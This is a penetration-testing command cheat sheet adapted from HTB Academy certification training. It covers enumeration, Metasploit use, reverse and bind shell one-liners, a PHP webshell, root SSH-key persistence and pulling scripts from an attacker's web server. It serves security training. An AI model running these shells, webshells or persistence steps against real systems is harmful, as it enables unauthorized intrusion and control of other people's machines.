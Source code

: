 #####   Cheat Sheet

The cheat sheet is a useful command reference for this module.

## Basic Tools

|**Command**|**Description**|
|---|---|
|**General**||
|`sudo openvpn user.ovpn`|Connect to VPN|
|`ifconfig`/`ip a`|Show our IP address|
|`netstat -rn`|Show networks accessible via the VPN|
|`ssh user@10.10.10.10`|SSH to a remote server|
|`ftp 10.129.42.253`|FTP to a remote server|
|**tmux**||
|`tmux`|Start tmux|
|`ctrl+b`|tmux: default prefix|
|`prefix c`|tmux: new window|
|`prefix 1`|tmux: switch to window (`1`)|
|`prefix shift+%`|tmux: split pane vertically|
|`prefix shift+"`|tmux: split pane horizontally|
|`prefix ->`|tmux: switch to the right pane|
|**Vim**||
|`vim file`|vim: open `file` with vim|
|`esc+i`|vim: enter `insert` mode|
|`esc`|vim: back to `normal` mode|
|`x`|vim: Cut character|
|`dw`|vim: Cut word|
|`dd`|vim: Cut full line|
|`yw`|vim: Copy word|
|`yy`|vim: Copy full line|
|`p`|vim: Paste|
|`:1`|vim: Go to line number 1.|
|`:w`|vim: Write the file 'i.e. save'|
|`:q`|vim: Quit|
|`:q!`|vim: Quit without saving|
|`:wq`|vim: Write and quit|

## Pentesting

|**Command**|**Description**|
|---|---|
|**Service Scanning**||
|`nmap 10.129.42.253`|Run nmap on an IP|
|`nmap -sV -sC -p- 10.129.42.253`|Run an nmap script scan on an IP|
|`locate scripts/citrix`|List various available nmap scripts|
|`nmap --script smb-os-discovery.nse -p445 10.10.10.40`|Run an nmap script on an IP|
|`netcat 10.10.10.10 22`|Grab banner of an open port|
|`smbclient -N -L \\\\10.129.42.253`|List SMB Shares|
|`smbclient \\\\10.129.42.253\\users`|Connect to an SMB share|
|`snmpwalk -v 2c -c public 10.129.42.253 1.3.6.1.2.1.1.5.0`|Scan SNMP on an IP|
|`onesixtyone -c dict.txt 10.129.42.254`|Brute force SNMP secret string|
|**Web Enumeration**||
|`gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt`|Run a directory scan on a website|
|`gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt`|Run a sub-domain scan on a website|
|`curl -IL https://www.inlanefreight.com`|Grab website banner|
|`whatweb 10.10.10.121`|List details about the webserver/certificates|
|`curl 10.10.10.121/robots.txt`|List potential directories in `robots.txt`|
|`ctrl+U`|View page source (in Firefox)|
|**Public Exploits**||
|`searchsploit openssh 7.2`|Search for public exploits for a web application|
|`msfconsole`|MSF: Start the Metasploit Framework|
|`search exploit eternalblue`|MSF: Search for public exploits in MSF|
|`use exploit/windows/smb/ms17_010_psexec`|MSF: Start using an MSF module|
|`show options`|MSF: Show required options for an MSF module|
|`set RHOSTS 10.10.10.40`|MSF: Set a value for an MSF module option|
|`check`|MSF: Test if the target server is vulnerable|
|`exploit`|MSF: Run the exploit on the target server is vulnerable|
|**Using Shells**||
|`nc -lvnp 1234`|Start a `nc` listener on a local port|
|`bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'`|Send a reverse shell from the remote server|
|`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2>&1\|nc 10.10.10.10 1234 >/tmp/f`|Another command to send a reverse shell from the remote server|
|`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/bash -i 2>&1\|nc -lvp 1234 >/tmp/f`|Start a bind shell on the remote server|
|`nc 10.10.10.1 1234`|Connect to a bind shell started on the remote server|
|`python -c 'import pty; pty.spawn("/bin/bash")'`|Upgrade shell TTY (1)|
|`ctrl+z` then `stty raw -echo` then `fg` then `enter` twice|Upgrade shell TTY (2)|
|`echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php`|Create a webshell php file|
|`curl http://SERVER_IP:PORT/shell.php?cmd=id`|Execute a command on an uploaded webshell|
|**Privilege Escalation**||
|`./linpeas.sh`|Run `linpeas` script to enumerate remote server|
|`sudo -l`|List available `sudo` privileges|
|`sudo -u user /bin/echo Hello World!`|Run a command with `sudo`|
|`sudo su -`|Switch to root user (if we have access to `sudo su`)|
|`sudo su user -`|Switch to a user (if we have access to `sudo su`)|
|`ssh-keygen -f key`|Create a new SSH key|
|`echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys`|Add the generated public key to the user|
|`ssh root@10.10.10.10 -i key`|SSH to the server with the generated private key|
|**Transferring Files**||
|`python3 -m http.server 8000`|Start a local webserver|
|`wget http://10.10.14.1:8000/linpeas.sh`|Download a file on the remote server from our local machine|
|`curl http://10.10.14.1:8000/linenum.sh -o linenum.sh`|Download a file on the remote server from our local machine|
|`scp linenum.sh user@remotehost:/tmp/linenum.sh`|Transfer a file to the remote server with `scp` (requires SSH access)|
|`base64 shell -w 0`|Convert a file to `base64`|
|`echo f0VMR...SNIO...InmDwU \| base64 -d > shell`|Convert a file from `base64` back to its orig|
|`md5sum shell`|Check the file's `md5sum` to ensure it converted correctly|

**Credit:** This information along with the all subdirectories that fall within the "HTB CERTIFIED PENETRATION TESTING SPECIALIST (CPTS)" section were adapted from the excellent guide on [HTB Academy](https://academy.hackthebox.com/preview/certifications/htb-certified-penetration-testing-specialist). Be sure to check out the original post for more details.
